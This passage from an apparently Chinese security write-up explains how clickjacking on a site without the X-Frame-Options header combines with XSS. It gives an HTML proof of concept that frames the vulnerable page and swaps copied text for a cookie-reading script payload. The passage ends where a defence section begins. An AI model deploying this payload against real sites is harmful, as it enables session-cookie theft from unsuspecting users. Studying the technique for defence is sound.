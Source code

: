 目标站点还存在点击劫持(ClickJacking)漏洞。我们查看响应，发现目标站点并未设置`X-f rame-Options`头，那么就会存在点击劫持(ClickJacking)漏洞：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ccca756fa0af7c8f415d0ea7ae71491453e429b9.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ccca756fa0af7c8f415d0ea7ae71491453e429b9.png)

这时就可以编写PoC来进行XSS Jacking以此来获取用户的cookie：

```php
<html>
    <head>
    </head>
    <body>
        Enter your email below to register:
        </br>
        <textarea autofocus style="width:220px; height:35px;"></textarea>
        </br>
        Repeat your email:
        </br>
        <i f rame style="width:230px; height:50px;" f rameBorder="0" src="index.html"></i f rame>
        </br>
        <input type="submit"></input>
        <s cript>
            document.addEventListener('copy', function(e){
                console.log(e);
                // 
                e.clipboardData.setData('text/plain', '\x3cs cript\x3ea lert(document.cookie)\x3c/s cript\x3e');
                e.preventDefault();
            });
        </s cript>
    </body>
</html>
```

其中网页的界面就是下面这张图所示：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-27ff54f13d0c55db7e1498c72f0dc7b610bebe0e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-27ff54f13d0c55db7e1498c72f0dc7b610bebe0e.png)

在这个网页中只要使用了复制键的话，那么复制的内容就都会是`<s cript>a lert(document.cookie)</s cript>`，再次输入邮箱的文本框其实是利用`i f rame`标签打开的index.html网页，存在XSS漏洞。所以当用户输入邮箱后，为了方便就会复制上面填写好的邮箱，然后粘贴到下面确认邮箱的框当中，那么这样就是将XSS的代码插入到了index.html中自己X了自己了。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-66146a083af4f212a3060da2822a775b10dea767.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-66146a083af4f212a3060da2822a775b10dea767.png)

所以点击劫持(ClickJacking)漏洞结合XSS 漏洞这个组合拳利用需要结合一下钓鱼社工来实现窃取受害者的cookie等敏感信息。

点击劫持(ClickJacking)漏洞防御方案
========================

这里可以考虑从服务器端和客户端两个方面来防御。

服务器端防御
------
